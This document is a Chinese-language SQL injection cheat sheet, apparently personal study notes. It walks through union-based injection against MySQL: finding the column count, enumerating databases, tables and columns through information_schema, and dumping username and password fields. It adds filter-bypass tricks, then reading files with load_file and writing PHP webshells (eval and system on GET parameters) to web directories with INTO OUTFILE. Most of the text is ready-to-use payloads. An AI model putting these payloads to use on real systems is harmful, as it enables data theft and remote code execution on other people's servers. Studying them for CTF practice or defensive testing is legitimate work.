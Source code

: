 union注入:
寻找注入点，判断闭合方式，判断列数，进行函数执行回显。


1. 测试当前表的字段数：+url编码为空格
```
id =1 ' order by 1 --+

id =1 ' order by 2 --+
...
id =1 ' order by 5 --+  //若到5报错，则此表有4个字段
```
如果不能使用orderby，则可以使用groupby来进行判断列数。
<https://blog.csdn.net/qq_37232329/article/details/122586495>


2. 测试回显了的字段：
```
id = -1 ' union select 1,2,3,4 --+

id = -1 union select 1,2,3,4
id = -1 union/**/select 1,2,3,4
前报错，后替换回显1,2,3,4
```
3. 回显信息收集
拿到表所在库名，登录用户名，操作系统等。
```
所有库名
select(group_concat(schema_name))from(information_schema.schemata)
所在库名
database()
```

4. 根据库名回显库中表名：
```
union select 1,2,GROUP_CONCAT(table_name),4 from
information_schema.tables
WHERE table_schema='库名'

union select 1,2,3,GROUP_CONCAT(table_name) from
information_schema.tables
WHERE table_schema=database()

group_concat(table_name) from information_schema.tables where table_schema=database()%23
```

5. 根据表名回显表的字段：
```
select 1,2,3,GROUP_CONCAT(column_name) from information_schema.columns 
WHERE table_name='表名'
```

6. 根据表名，字段，回显纪录：
```
select 1,2,3,group_concat(name,passwd,字段) from 表名
一次一个字段
```

^
## **绕过**
空格被过滤
空格过滤可以利用/**/代替空格。

注释符被过滤
将后面的单引|号闭合即可。

or 被过滤，orderby、information_schema都不能用。
查表名使用 select group_concat(table_name),2,3,4 from mysql.innodb_table_stats where database_name=database()

如果information_schema被禁止，通过sys.schema获取当前数据库表名

通过无列名注入获取表group_concat(某一字段所有值)。
```
SELECT group_concat(`1`) from (select 1,2 union SELECT * from dept) as t
这里需要多试几次dept表有几个字段。
如两个字段：
SELECT group_concat(b) from (select 1 as a,2 as b union SELECT * from dept) as t
```
ctf：
<https://www.cnblogs.com/hello-there/p/12918265.html>


^
## **联合注入写shell**
```
union select 1,substr((select load_file('/flag')),1,255)


联合注入前报错后写webshell文件：
写入文件路径为相对路径时，默认写入到数据库所在文件夹中
1111111'union select 1,2,"<?php @eval($_GET['string'])?>" into outfile "1.php" --+
也可以写成绝对路径，此处为Windows的路径
1111111'union select 1,2,"<?php @eval($_GET['1'])?>" into outfile "/var/www/html/1.php" --+
1111111'union select 1,2,"<?php system($_GET['cmd'])?>" into outfile "D:\\web_security\\1.php" --+
相对路径的写法
-14' union select 1,2,"<?php system($_GET['cmd'])?>" into outfile "../../www/sqli/Less-1/2.php" --+
```